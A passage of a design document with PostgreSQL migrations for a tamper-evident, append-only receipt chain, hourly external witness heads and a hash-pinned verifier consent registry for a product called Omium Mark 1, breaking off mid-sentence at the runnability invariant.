CREATE EXTENSION IF NOT EXISTS pgcrypto;

-- ---------------------------------------------------------------------------
-- (1) m1_server_signing_keys — the server chain key, with rotation.
-- ---------------------------------------------------------------------------
-- Global, not tenant-scoped: the key signs for Omium, not for a tenant, and
-- every tenant's verifier needs to read it. Rotation inserts a new row and
-- stamps retired_at on the old; retired keys stop signing NEW receipts and are
-- NEVER unpublished — a receipt signed under an unpublished key is a receipt
-- nobody can verify, i.e. one we never issued (ro_012's rule).
CREATE TABLE IF NOT EXISTS m1_server_signing_keys (
  key_id         text PRIMARY KEY,   -- "ed25519:" + first 16 hex of SHA-256(pub); derived, so it cannot lie
  key_algorithm  text NOT NULL DEFAULT 'ed25519' CHECK (key_algorithm = 'ed25519'),
  public_key     bytea NOT NULL,
  created_at     timestamptz NOT NULL DEFAULT now(),
  retired_at     timestamptz,
  CONSTRAINT ck_m1_skeys_pub_len CHECK (octet_length(public_key) = 32)
);

-- ---------------------------------------------------------------------------
-- (2) m1_receipts — the chain.
-- ---------------------------------------------------------------------------
-- One table for all receipt classes, because one table is what keeps the chain
-- a single unbroken per-tenant sequence. The CHAIN columns are NOT NULL on
-- every row; the class-specific columns are nullable and held to
-- all-or-nothing shapes by ck_m1_receipts_record_shape.
CREATE TABLE IF NOT EXISTS m1_receipts (
  id                 uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  tenant_id          uuid NOT NULL REFERENCES m1_tenants(id),

  -- ---- chain columns: present on every row --------------------------------
  seq                bigint NOT NULL,          -- per-tenant, starts at 1, gap-free (locked head row, see below)
  prev_receipt_hash  bytea NOT NULL,           -- 32 zero bytes at genesis; carried INSIDE the signed payload as hex
  receipt_hash       bytea NOT NULL,           -- SHA-256 of the signing input
  -- The exact bytes canonicalised and signed. text, NOT jsonb — see header.
  payload            text NOT NULL,
  record_type        text NOT NULL CHECK (record_type IN (
                       'checkpoint',
                       'noise_certificate', 'memory_admission',
                       'bundle_publication', 'corpus_export',
                       'coverage_transition', 'guard_contamination',
                       'discontinuity')),
  issued_at          timestamptz NOT NULL DEFAULT now(),

  -- ---- signatures: server always, device on device-originated classes -----
  -- Both signatures are over the SAME signing input (domain prefix ||
  -- canonical payload), so the offline verifier needs one canonicalisation
  -- and two public keys, not two encodings.
  server_key_id      text NOT NULL REFERENCES m1_server_signing_keys(key_id),
  server_signature   bytea NOT NULL,
  device_key_id      text REFERENCES m1_device_keys(key_id),
  device_signature   bytea,

  -- ---- checkpoint columns: present iff record_type = 'checkpoint' ---------
  -- A checkpoint seals a batch of N events / T seconds into a Merkle root.
  -- checkpoint_seq is the tenant's checkpoint counter (also gap-free, advanced
  -- under the same head lock); merkle_root commits to the leaves, which are
  -- the events' UUIDv7 ids + content hashes in spool order.
  checkpoint_seq     bigint,
  merkle_root        bytea,
  event_count        int,

  -- ---- per-event columns: present on the six per-event classes ------------
  -- subject_id is what this receipt attests: the M1P event_id for edge-side
  -- classes, or the registry-row id (cert, artifact, bundle, export) for
  -- server-side acts. Edge-side classes ALSO carry the Merkle inclusion proof
  -- tying the subject event into an already-sealed, device-signed checkpoint:
  -- checkpoint_seq names it, inclusion_path is the concatenated 32-byte
  -- sibling hashes leaf-to-root, leaf_index disambiguates left/right. bytea
  -- rather than bytea[] so octet_length can police it and the verifier reads
  -- one contiguous buffer.
  subject_id         uuid,
  inclusion_path     bytea,
  leaf_index         bigint,

  CONSTRAINT ck_m1_receipts_seq        CHECK (seq > 0),
  -- Length checks rather than domains: a truncated hash that is still "a
  -- bytea" fails verification years later, off-line, indistinguishable from
  -- forgery. Reject it at write time, where the cause is knowable.
  CONSTRAINT ck_m1_receipts_prev_len   CHECK (octet_length(prev_receipt_hash) = 32),
  CONSTRAINT ck_m1_receipts_hash_len   CHECK (octet_length(receipt_hash) = 32),
  CONSTRAINT ck_m1_receipts_ssig_len   CHECK (octet_length(server_signature) = 64),
  CONSTRAINT ck_m1_receipts_dsig_len   CHECK (device_signature IS NULL OR octet_length(device_signature) = 64),
  CONSTRAINT ck_m1_receipts_root_len   CHECK (merkle_root IS NULL OR octet_length(merkle_root) = 32),
  CONSTRAINT ck_m1_receipts_path_len   CHECK (inclusion_path IS NULL OR octet_length(inclusion_path) % 32 = 0),
  CONSTRAINT ck_m1_receipts_leaf_idx   CHECK (leaf_index IS NULL OR leaf_index >= 0),
  CONSTRAINT ck_m1_receipts_count      CHECK (event_count IS NULL OR event_count > 0),
  CONSTRAINT ck_m1_receipts_payload_json CHECK (payload::jsonb IS NOT NULL),
  -- Genesis equivalence, verbatim from ro_012: seq 1 is the only row that MAY
  -- point at nothing and the only row ALLOWED to. The one-way implication
  -- would permit a mid-chain row claiming to start a chain — the exact shape
  -- a truncation leaves when the surviving tail should look like a whole
  -- history.
  CONSTRAINT ck_m1_receipts_genesis
    CHECK ((seq = 1) = (prev_receipt_hash = '\x0000000000000000000000000000000000000000000000000000000000000000'::bytea)),
  -- Dual-signing shape: the three classes that ORIGINATE on the device carry
  -- the device signature; the rest are server acts. Equivalence, not
  -- implication, so a server act cannot dress up as device-attested.
  CONSTRAINT ck_m1_receipts_origin
    CHECK ((record_type IN ('checkpoint', 'coverage_transition', 'guard_contamination'))
           = (device_key_id IS NOT NULL AND device_signature IS NOT NULL)),
  -- All-or-nothing record shapes, one arm per class family, explicit column
  -- lists so nothing can wear half of another class's clothes.
  CONSTRAINT ck_m1_receipts_record_shape CHECK (
    (record_type = 'checkpoint'
      AND checkpoint_seq IS NOT NULL AND checkpoint_seq > 0
      AND merkle_root IS NOT NULL AND event_count IS NOT NULL
      AND subject_id IS NULL AND inclusion_path IS NULL AND leaf_index IS NULL)
    OR
    (record_type IN ('coverage_transition', 'guard_contamination')
      AND subject_id IS NOT NULL AND checkpoint_seq IS NOT NULL
      AND inclusion_path IS NOT NULL AND leaf_index IS NOT NULL
      AND merkle_root IS NULL AND event_count IS NULL)
    OR
    (record_type IN ('noise_certificate', 'memory_admission',
                     'bundle_publication', 'corpus_export')
      AND subject_id IS NOT NULL
      AND checkpoint_seq IS NULL AND inclusion_path IS NULL AND leaf_index IS NULL
      AND merkle_root IS NULL AND event_count IS NULL)
    OR
    (record_type = 'discontinuity'
      AND subject_id IS NULL AND checkpoint_seq IS NULL AND inclusion_path IS NULL
      AND leaf_index IS NULL AND merkle_root IS NULL AND event_count IS NULL)
  ),

  -- Two receipts claiming one position is the ambiguity the structure exists
  -- to exclude; refused by the database, not merely by the head lock.
  CONSTRAINT uq_m1_receipts_tenant_seq UNIQUE (tenant_id, seq),
  -- Globally unique: payload contains tenant_id and seq, so a collision is a
  -- canonicalisation bug or SHA-256 breaking. Both should stop the write.
  CONSTRAINT uq_m1_receipts_hash       UNIQUE (receipt_hash)
);

ALTER TABLE m1_receipts ENABLE ROW LEVEL SECURITY;
ALTER TABLE m1_receipts FORCE ROW LEVEL SECURITY;
DROP POLICY IF EXISTS tenant_isolation ON m1_receipts;
CREATE POLICY tenant_isolation ON m1_receipts
  USING (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid)
  WITH CHECK (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid);

-- Checkpoint numbering is unique per tenant (gap-freedom comes from the head
-- lock; uniqueness is proven here), and it is the witness/inclusion lookup.
CREATE UNIQUE INDEX IF NOT EXISTS uq_m1_receipts_checkpoint
  ON m1_receipts (tenant_id, checkpoint_seq)
  WHERE record_type = 'checkpoint';
-- "find the receipt for this cert / artifact / bundle / export / event".
CREATE INDEX IF NOT EXISTS ix_m1_receipts_subject
  ON m1_receipts (tenant_id, subject_id)
  WHERE subject_id IS NOT NULL;

-- ---------------------------------------------------------------------------
-- (3) m1_receipt_chain_head — the per-tenant serialization point.
-- ---------------------------------------------------------------------------
-- ro_012's locked row, with checkpoint_seq added so BOTH counters advance
-- under the one lock. NOT a cache of MAX(seq): it is the lock itself. Append =
-- SELECT ... FOR UPDATE, build+sign at seq+1, INSERT, UPDATE head, COMMIT.
CREATE TABLE IF NOT EXISTS m1_receipt_chain_head (
  tenant_id       uuid PRIMARY KEY REFERENCES m1_tenants(id),
  -- 0-with-genesis-hash rather than NULL, so the first append — the path
  -- least tested and most exercised for a brand-new customer — has no
  -- special case.
  seq             bigint NOT NULL DEFAULT 0,
  head_hash       bytea  NOT NULL
                    DEFAULT '\x0000000000000000000000000000000000000000000000000000000000000000'::bytea,
  checkpoint_seq  bigint NOT NULL DEFAULT 0,
  updated_at      timestamptz NOT NULL DEFAULT now(),
  CONSTRAINT ck_m1_head_seq      CHECK (seq >= 0),
  CONSTRAINT ck_m1_head_ckpt     CHECK (checkpoint_seq >= 0),
  CONSTRAINT ck_m1_head_hash_len CHECK (octet_length(head_hash) = 32)
);

ALTER TABLE m1_receipt_chain_head ENABLE ROW LEVEL SECURITY;
ALTER TABLE m1_receipt_chain_head FORCE ROW LEVEL SECURITY;
DROP POLICY IF EXISTS tenant_isolation ON m1_receipt_chain_head;
CREATE POLICY tenant_isolation ON m1_receipt_chain_head
  USING (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid)
  WITH CHECK (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid);

-- ---------------------------------------------------------------------------
-- (4) Append-only enforcement — ro_012's three layers, verbatim in intent.
-- ---------------------------------------------------------------------------
-- (a) REVOKE from PUBLIC and from the migration's own role (a speed bump);
-- (b) BEFORE UPDATE/DELETE row trigger (the one that holds);
-- (c) BEFORE TRUNCATE statement trigger, because row triggers do not fire on
--     TRUNCATE and TRUNCATE is the one-statement eraser.
-- The head is deliberately NOT append-only: advancing it is an UPDATE, and
-- that is its entire job; it is a pointer recomputable from the chain, not a
-- record. Compelled erasure must DISABLE TRIGGER out loud and then append a
-- record_type='discontinuity' receipt naming the last known-good (seq, hash) —
-- the erasure is defensible, the silence is not.
-- The function is generic on purpose: m1_003 reuses it for witness heads.
CREATE OR REPLACE FUNCTION m1_append_only()
RETURNS trigger AS $$
BEGIN
  RAISE EXCEPTION
    '% is append-only; % is not permitted', TG_TABLE_NAME, TG_OP
    USING ERRCODE = 'insufficient_privilege',
          HINT = 'Erasure must DISABLE TRIGGER explicitly and then append a discontinuity receipt (m1_002 header).';
  RETURN NULL;  -- unreachable; keeps plpgsql from reporting a missing RETURN
END;
$$ LANGUAGE plpgsql;

DROP TRIGGER IF EXISTS trg_m1r_append_only ON m1_receipts;
CREATE TRIGGER trg_m1r_append_only
  BEFORE UPDATE OR DELETE ON m1_receipts
  FOR EACH ROW EXECUTE FUNCTION m1_append_only();

DROP TRIGGER IF EXISTS trg_m1r_no_truncate ON m1_receipts;
CREATE TRIGGER trg_m1r_no_truncate
  BEFORE TRUNCATE ON m1_receipts
  FOR EACH STATEMENT EXECUTE FUNCTION m1_append_only();

REVOKE UPDATE, DELETE, TRUNCATE ON m1_receipts FROM PUBLIC;
REVOKE DELETE, TRUNCATE ON m1_receipt_chain_head FROM PUBLIC;

DO $$
BEGIN
  EXECUTE format('REVOKE UPDATE, DELETE, TRUNCATE ON m1_receipts FROM %I', current_user);
  EXECUTE format('REVOKE DELETE, TRUNCATE ON m1_receipt_chain_head FROM %I', current_user);
END $$;

-- ---------------------------------------------------------------------------
-- (5) Grants. ONE writer: every append flows through controld, which holds
-- the head lock and the server key. adjudicator/intel REQUEST receipts over
-- controld's internal API and only ever read this table — a service that
-- could append receipts about its own output could certify itself.
-- ---------------------------------------------------------------------------
DO $$
BEGIN
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'controld_app') THEN
    GRANT SELECT, INSERT         ON m1_receipts           TO controld_app;
    GRANT SELECT, INSERT, UPDATE ON m1_receipt_chain_head TO controld_app;
    GRANT SELECT, INSERT, UPDATE ON m1_server_signing_keys TO controld_app;
    REVOKE UPDATE, DELETE, TRUNCATE ON m1_receipts           FROM controld_app;
    REVOKE DELETE, TRUNCATE         ON m1_receipt_chain_head FROM controld_app;
  END IF;
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'adjudicator_app') THEN
    GRANT SELECT ON m1_receipts, m1_server_signing_keys TO adjudicator_app;
  END IF;
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'intel_app') THEN
    GRANT SELECT ON m1_receipts, m1_server_signing_keys TO intel_app;
  END IF;
END $$;

COMMIT;

-- ROLLBACK (run manually if needed):
-- Dropping these tables destroys every attestation ever issued and is NOT
-- recoverable by re-capture: receipts are signed statements about moments
-- that have passed. Export every tenant's chain first.
-- BEGIN;
--   DROP TABLE IF EXISTS m1_receipts CASCADE;
--   DROP TABLE IF EXISTS m1_receipt_chain_head CASCADE;
--   DROP TABLE IF EXISTS m1_server_signing_keys CASCADE;
--   DROP FUNCTION IF EXISTS m1_append_only();
-- COMMIT;
```

**The receipt classes (contract C13).** Per-event receipts are deliberately rare — the chain must never grow per token, or the head lock becomes a real bottleneck and the chain a cost center. Only decisions that change what Mark 1 *asserts* get their own link:

| `record_type` | `subject_id` is | Why it earns its own link |
|---|---|---|
| `checkpoint` | — (carries `merkle_root`) | The workhorse: batch N events / T seconds → Merkle root → one chained, dual-signed link. Every ordinary event is attested by inclusion, at cost O(events/N) |
| `noise_certificate` | the certificate row | A claim about verifier reliability that customer reports will cite |
| `memory_admission` | the artifact row | An artifact entering injection changes future agent behavior |
| `bundle_publication` | the bundle row | A policy push changes edge behavior fleet-wide |
| `corpus_export` | the export row | Training data leaving the ledger is the moat's legal perimeter |
| `coverage_transition` | the M1P event (+ inclusion proof) | Enable/disable/bypass windows must be attributable or coverage bands are fiction |
| `guard_contamination` | the M1P event (+ inclusion proof) | The OAuth-guard P0; refusal must be provable |
| `discontinuity` | — | The honest link written after compelled erasure or restore-loss; never a repair |

**The checkpoint model.** `mark1d` seals a checkpoint every N events or T seconds (bundle-tunable; billing-grade classes force a seal on `SessionEnd`): it builds a Merkle tree over the batch's event ids + content hashes in spool order, signs the root with the device key, and uploads it with the batch. `controld` verifies the device signature against the enrolled key, countersigns the same canonical bytes, takes the tenant's head lock, and appends the checkpoint receipt at `seq+1`/`checkpoint_seq+1`. Events in ClickHouse carry `checkpoint_seq` so any event's attestation is: fetch checkpoint receipt → verify both signatures and the chain → verify the inclusion path. The dual signature closes both fraud directions — Omium cannot mint history the device never signed, and a device cannot claim Omium accepted what it never countersigned.

**Why the head stays a locked row.** The argument is `ro_012`'s and it survives the new scale unchanged, *because of* checkpointing: the chain grows per checkpoint (per ~N events), not per event, so one `SELECT … FOR UPDATE` per tenant per seal is noise. Sequences are non-transactional — an aborted append would leave a permanent gap, gaps would become routine, and a tamper alarm that fires during normal operation gets muted, after which it evidences nothing. With the locked row a gap is impossible, so a gap is unambiguous: rows were removed. If a single tenant ever seals faster than one row-lock can serve, the answer is sharding by an explicit `chain_id` within the tenant — never relaxing the gap invariant, which is the asset.

## Witness heads

`m1_003_witness_heads.sql`. The chain proves internal consistency; it cannot prove Omium is not showing different customers different histories (a split view) or quietly rolling a head back and re-signing. The witness closes that: every hour, per tenant, `controld` signs a statement of the current head and publishes it **outside Omium's control** — a public transparency log and/or the customer's own object-lock S3 bucket. Idle chains are re-witnessed anyway; "the head is *still* X at hour H" is what makes a later rollback detectable. Without this table's external half, the receipt product is decoration (execution-plan-v2, "Data stores").

```sql
-- m1_003_witness_heads.sql
-- WHY: this table is Omium's OWN record of what it published where. It is not
-- the evidence — the evidence is the copy in the log and in the customer's
-- bucket, which is the point: those are the two places Omium cannot edit. The
-- row exists so support and the verifier can find the external copies, and so
-- a publication gap is a queryable fact rather than a silent one. The witness
-- job publishes FIRST and inserts AFTER, so every row records a completed
-- publication; a failed hour is a missing row, which the hourly cadence makes
-- visible. Rows are append-only for the same reason receipts are.

BEGIN;

CREATE TABLE IF NOT EXISTS m1_witness_heads (
  id                    uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  tenant_id             uuid NOT NULL REFERENCES m1_tenants(id),

  -- The witnessed facts: head (seq, hash) and checkpoint counter at the
  -- moment of signing. seq > 0 because an empty chain has nothing to witness.
  witnessed_seq         bigint NOT NULL CHECK (witnessed_seq > 0),
  witnessed_hash        bytea  NOT NULL,
  witnessed_checkpoint_seq bigint NOT NULL CHECK (witnessed_checkpoint_seq >= 0),
  witnessed_at          timestamptz NOT NULL DEFAULT now(),

  -- The exact canonical bytes that were signed and published — text, not
  -- jsonb, for the same signature-over-bytes reason as m1_receipts.payload.
  -- Contains tenant_id, seq, hash, checkpoint_seq, witnessed_at; domain
  -- prefix "mark1-witness-v1\0" so a witness statement can never be replayed
  -- as a receipt or vice versa.
  statement             text NOT NULL,
  server_key_id         text NOT NULL REFERENCES m1_server_signing_keys(key_id),
  server_signature      bytea NOT NULL,

  -- Destination 1: the transparency log. Index + the log's inclusion proof,
  -- stored as the log returns it (text: proof formats are the log's contract,
  -- not ours — parsing it into columns would break on the log's next version).
  log_backend           text,      -- e.g. 'rekor'; names which log to ask
  log_entry_index       bigint,
  log_inclusion_proof   text,

  -- Destination 2: the customer's object-lock bucket. URI + etag + the
  -- retention horizon the object was locked under; retain_until is what turns
  -- "we uploaded it" into "nobody, including the bucket owner, can remove it
  -- before this date".
  object_bucket_uri     text,
  object_etag           text,
  object_retain_until   timestamptz,

  CONSTRAINT ck_m1_wh_hash_len CHECK (octet_length(witnessed_hash) = 32),
  CONSTRAINT ck_m1_wh_sig_len  CHECK (octet_length(server_signature) = 64),
  CONSTRAINT ck_m1_wh_statement_json CHECK (statement::jsonb IS NOT NULL),
  -- Each destination is all-or-nothing, and at least one must be present: a
  -- witness row that witnesses to nowhere is a log line, not a control.
  CONSTRAINT ck_m1_wh_log_shape
    CHECK ((log_backend IS NULL) = (log_entry_index IS NULL)
           AND (log_backend IS NULL) = (log_inclusion_proof IS NULL)),
  CONSTRAINT ck_m1_wh_object_shape
    CHECK ((object_bucket_uri IS NULL) = (object_etag IS NULL)
           AND (object_bucket_uri IS NULL) = (object_retain_until IS NULL)),
  CONSTRAINT ck_m1_wh_some_destination
    CHECK (log_backend IS NOT NULL OR object_bucket_uri IS NOT NULL)
);

ALTER TABLE m1_witness_heads ENABLE ROW LEVEL SECURITY;
ALTER TABLE m1_witness_heads FORCE ROW LEVEL SECURITY;
DROP POLICY IF EXISTS tenant_isolation ON m1_witness_heads;
CREATE POLICY tenant_isolation ON m1_witness_heads
  USING (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid)
  WITH CHECK (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid);

-- "latest witness for this tenant" and "witness history around timestamp T"
-- are the verifier's two queries.
CREATE INDEX IF NOT EXISTS ix_m1_wh_tenant_time
  ON m1_witness_heads (tenant_id, witnessed_at DESC);

-- Append-only, same three layers as m1_receipts, reusing m1_002's function.
DROP TRIGGER IF EXISTS trg_m1wh_append_only ON m1_witness_heads;
CREATE TRIGGER trg_m1wh_append_only
  BEFORE UPDATE OR DELETE ON m1_witness_heads
  FOR EACH ROW EXECUTE FUNCTION m1_append_only();

DROP TRIGGER IF EXISTS trg_m1wh_no_truncate ON m1_witness_heads;
CREATE TRIGGER trg_m1wh_no_truncate
  BEFORE TRUNCATE ON m1_witness_heads
  FOR EACH STATEMENT EXECUTE FUNCTION m1_append_only();

REVOKE UPDATE, DELETE, TRUNCATE ON m1_witness_heads FROM PUBLIC;
DO $$
BEGIN
  EXECUTE format('REVOKE UPDATE, DELETE, TRUNCATE ON m1_witness_heads FROM %I', current_user);
END $$;

DO $$
BEGIN
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'controld_app') THEN
    GRANT SELECT, INSERT ON m1_witness_heads TO controld_app;
    REVOKE UPDATE, DELETE, TRUNCATE ON m1_witness_heads FROM controld_app;
  END IF;
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'intel_app') THEN
    GRANT SELECT ON m1_witness_heads TO intel_app;  -- reports cite witness coverage
  END IF;
END $$;

COMMIT;

-- ROLLBACK (run manually if needed; the external copies survive regardless,
-- which is the design working):
-- BEGIN;
--   DROP TABLE IF EXISTS m1_witness_heads CASCADE;
-- COMMIT;
```

**Offline verification — what the customer holds.** The standalone verifier must reach a verdict with the Omium server unreachable, so everything it needs lives outside this database by construction: (1) the tenant's exported chain — every receipt's exact `payload` bytes, both signatures, and key ids — exported continuously or on demand; (2) the device public keys, which the customer's own machines generated and hold; (3) the server public keys, shipped in the verifier tool and cross-signed at rotation; (4) the witness statements in the customer's own object-lock bucket (or the public log). Verification is then: recompute every `receipt_hash` from payload bytes, walk the chain from genesis checking `prev_receipt_hash` linkage and gap-freedom, verify both signatures per link, and compare the head at each witnessed hour against the statement in *their* bucket. A mismatch means Omium rewrote history after publication; a missing hour means Omium stopped witnessing — both detectable with zero trust in this table.

## Verifier and anchor registry

`m1_004_verifier_registry.sql`. Two tables: the global catalog of verifiers (anchors, judges, reward models, consistency checkers — the ensemble members whose confusion matrices bundles ship), and per-workspace anchor consent. The compliance stance (execution-plan-v2 §Compliance-4) is enforced structurally: **an anchor whose effective execution changed is not runnable until re-consented**, and that falls out of two design facts rather than an application promise — catalog rows are *immutable versions* (a changed hash is a new row, never an edit), and a consent names the exact hash it consented to, validated at insert against the catalog.

```sql
-- m1_004_verifier_registry.sql
-- WHY: an anchor is a command that runs on a customer's machine against their
-- repo. The user consented to a SPECIFIC execution — this binary content,
-- these args, this env allow-list — summarized as one 32-byte
-- effective_execution_hash (the anti-tamper envelope: a PATH-shimmed ruff or
-- an edited argv changes the hash). Consent to "ruff" in the abstract would
-- mean a catalog edit silently re-scopes what runs; consent to a hash cannot
-- be re-scoped, only re-asked. The catalog is GLOBAL (no tenant_id, no RLS):
-- bundles enable anchors by catalog id, and confusion matrices key on
-- (verifier, version), so every tenant must read the same rows. Consent is
-- tenant-scoped and carries the standard policy.

BEGIN;

CREATE EXTENSION IF NOT EXISTS pgcrypto;

-- ---------------------------------------------------------------------------
-- (1) m1_verifiers — the catalog. One row per (verifier, version), immutable.
-- ---------------------------------------------------------------------------
CREATE TABLE IF NOT EXISTS m1_verifiers (
  id                       uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  -- Stable human key: 'ruff', 'tsc-incremental', 'cargo-check-warm',
  -- 'judge:e1-default'. text, not enum: the catalog grows with every adapter.
  verifier_key             text NOT NULL,
  kind                     text NOT NULL
                             CHECK (kind IN ('anchor', 'judge', 'reward_model', 'consistency')),
  -- int, not semver text: versions here order catalog rows, they do not
  -- describe the tool. The tool's own version string lives in definition.
  version                  int  NOT NULL CHECK (version > 0),
  display_name             text NOT NULL,
  -- The full definition the hash commits to (resolved binary digest, argv,
  -- env allow-list, sandbox preconditions). jsonb here — unlike a receipt
  -- payload this is DATA to query, not bytes to re-sign; the hash below is
  -- computed over its canonical form at publication and stored, not derived.
  definition               jsonb NOT NULL,
  -- Anchors only (equivalence CHECK below): SHA-256 over the canonical
  -- definition. THE anti-tamper value: the edge recomputes it from what it
  -- actually resolved and refuses to run on mismatch.
  effective_execution_hash bytea,
  created_at               timestamptz NOT NULL DEFAULT now(),
  -- Retirement stops NEW consents and bundle references; old consents and old
  -- receipts still resolve, because the row never goes away.
  retired_at               timestamptz,
  CONSTRAINT ck_m1_verifiers_hash_len
    CHECK (effective_execution_hash IS NULL OR octet_length(effective_execution_hash) = 32),
  -- Equivalence: every anchor has a hash, only anchors have one. A judge's
  -- identity is its definition (model id, prompt hash); it does not execute
  -- on customer machines, so it has no execution to consent to.
  CONSTRAINT ck_m1_verifiers_anchor_hash
    CHECK ((kind = 'anchor') = (effective_execution_hash IS NOT NULL)),
  CONSTRAINT uq_m1_verifiers_key_version UNIQUE (verifier_key, version)
);

-- Immutability: a catalog row may only ever gain retired_at. Any other change
-- is a NEW VERSION — that is the whole re-consent mechanism, so it gets a
-- trigger, not a convention. The jsonb-minus-key comparison covers every
-- column including ones added later, so a future ALTER TABLE cannot quietly
-- open a mutability hole.
CREATE OR REPLACE FUNCTION m1_verifier_immutable()
RETURNS trigger AS $$
BEGIN
  IF (to_jsonb(NEW) - 'retired_at') IS DISTINCT FROM (to_jsonb(OLD) - 'retired_at') THEN
    RAISE EXCEPTION
      'm1_verifiers rows are immutable except retired_at; publish a new version'
      USING ERRCODE = 'insufficient_privilege';
  END IF;
  RETURN NEW;
END;
$$ LANGUAGE plpgsql;

DROP TRIGGER IF EXISTS trg_m1v_immutable ON m1_verifiers;
CREATE TRIGGER trg_m1v_immutable
  BEFORE UPDATE ON m1_verifiers
  FOR EACH ROW EXECUTE FUNCTION m1_verifier_immutable();

REVOKE DELETE, TRUNCATE ON m1_verifiers FROM PUBLIC;

-- "current version of each verifier" — the policy compiler's scan.
CREATE INDEX IF NOT EXISTS ix_m1_verifiers_key
  ON m1_verifiers (verifier_key, version DESC) WHERE retired_at IS NULL;

-- ---------------------------------------------------------------------------
-- (2) m1_anchor_consents — per-workspace consent, hash-pinned.
-- ---------------------------------------------------------------------------
CREATE TABLE IF NOT EXISTS m1_anchor_consents (
  id                        uuid PRIMARY KEY DEFAULT gen_random_uuid(),
  tenant_id                 uuid NOT NULL REFERENCES m1_tenants(id),
  device_id                 uuid NOT NULL REFERENCES m1_devices(id),
  -- Per-tenant HMAC of the workspace root, never the path: paths are exactly
  -- what the wire contract keeps off the server. 32 bytes, length-checked.
  workspace_fingerprint     bytea NOT NULL,
  verifier_id               uuid NOT NULL REFERENCES m1_verifiers(id),
  -- The hash the user SAW in `mark1 doctor` and said yes to. Stored even
  -- though it must equal the catalog's (trigger below) so that if a catalog
  -- row were ever tampered with, the consent still states what was consented
  -- to — the two agreeing is a checkable fact, not a foreign key's assumption.
  consented_execution_hash  bytea NOT NULL,
  consented_by              text  NOT NULL,   -- OIDC subject; consent has an author
  consented_at              timestamptz NOT NULL DEFAULT now(),
  -- Withdrawal is an UPDATE of these, never a DELETE: "was this anchor
  -- consented on 2026-06-01" must stay answerable for receipt disputes.
  revoked_at                timestamptz,
  revoked_reason            text,
  CONSTRAINT ck_m1_consent_ws_len   CHECK (octet_length(workspace_fingerprint) = 32),
  CONSTRAINT ck_m1_consent_hash_len CHECK (octet_length(consented_execution_hash) = 32)
);

-- At most one LIVE consent per (workspace, verifier version); history rows
-- (revoked, or pointing at superseded versions) accumulate freely.
CREATE UNIQUE INDEX IF NOT EXISTS uq_m1_consent_live
  ON m1_anchor_consents (tenant_id, workspace_fingerprint, verifier_id)
  WHERE revoked_at IS NULL;

-- Insert-time validation: the consent must name an ANCHOR and must name its
-- CURRENT hash. This is what makes a stale consent dialog (hash changed
-- between display and click) a refused write instead of a silent mis-consent.
CREATE OR REPLACE FUNCTION m1_consent_matches_catalog()
RETURNS trigger AS $$
DECLARE
  v m1_verifiers%ROWTYPE;
BEGIN
  SELECT * INTO v FROM m1_verifiers WHERE id = NEW.verifier_id;
  IF v.kind IS DISTINCT FROM 'anchor' THEN
    RAISE EXCEPTION 'consent is only defined for anchors; % is %', v.verifier_key, v.kind
      USING ERRCODE = 'check_violation';
  END IF;
  IF v.retired_at IS NOT NULL THEN
    RAISE EXCEPTION 'cannot consent to retired verifier %', v.verifier_key
      USING ERRCODE = 'check_violation';
  END IF;
  IF NEW.consented_execution_hash IS DISTINCT FROM v.effective_execution_hash THEN
    RAISE EXCEPTION
      'consent hash does not match catalog for % v%; re-display and re-ask',
      v.verifier_key, v.version
      USING ERRCODE = 'check_violation';
  END IF;
  RETURN NEW;
END;
$$ LANGUAGE plpgsql;

DROP TRIGGER IF EXISTS trg_m1_consent_matches ON m1_anchor_consents;
CREATE TRIGGER trg_m1_consent_matches
  BEFORE INSERT ON m1_anchor_consents
  FOR EACH ROW EXECUTE FUNCTION m1_consent_matches_catalog();

ALTER TABLE m1_anchor_consents ENABLE ROW LEVEL SECURITY;
ALTER TABLE m1_anchor_consents FORCE ROW LEVEL SECURITY;
DROP POLICY IF EXISTS tenant_isolation ON m1_anchor_consents;
CREATE POLICY tenant_isolation ON m1_anchor_consents
  USING (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid)
  WITH CHECK (tenant_id = NULLIF(current_setting('app.tenant_id', true), '')::uuid);

-- The runnability check's exact access path: live consents for one workspace.
CREATE INDEX IF NOT EXISTS ix_m1_consent_workspace
  ON m1_anchor_consents (tenant_id, workspace_fingerprint)
  WHERE revoked_at IS NULL;

-- ---------------------------------------------------------------------------
-- (3) Grants. The policy compiler (intel) publishes catalog versions; consent
-- arrives through controld from the edge; nobody deletes anything.
-- ---------------------------------------------------------------------------
DO $$
BEGIN
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'intel_app') THEN
    GRANT SELECT, INSERT, UPDATE ON m1_verifiers TO intel_app;  -- UPDATE = retired_at only, trigger-policed
    GRANT SELECT ON m1_anchor_consents TO intel_app;            -- the compiler refuses to enable unconsented anchors
  END IF;
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'controld_app') THEN
    GRANT SELECT ON m1_verifiers TO controld_app;
    GRANT SELECT, INSERT, UPDATE ON m1_anchor_consents TO controld_app;  -- UPDATE = revocation
  END IF;
  IF EXISTS (SELECT 1 FROM pg_roles WHERE rolname = 'adjudicator_app') THEN
    GRANT SELECT ON m1_verifiers TO adjudicator_app;  -- confusion matrices key on catalog rows
  END IF;
END $$;

REVOKE DELETE, TRUNCATE ON m1_verifiers, m1_anchor_consents FROM PUBLIC;

COMMIT;

-- ROLLBACK (run manually if needed; drops the consent history that receipt
-- disputes cite — export it first):
-- BEGIN;
--   DROP TABLE IF EXISTS m1_anchor_consents CASCADE;
--   DROP TABLE IF EXISTS m1_verifiers CASCADE;
--   DROP FUNCTION IF EXISTS m1_consent_matches_catalog();
--   DROP FUNCTION IF EXISTS m1_verifier_immutable();
-- COMMIT;
```

**The runnability invariant, as the one query every consumer uses.** An anchor version `V` is runnable in workspace `W` iff:

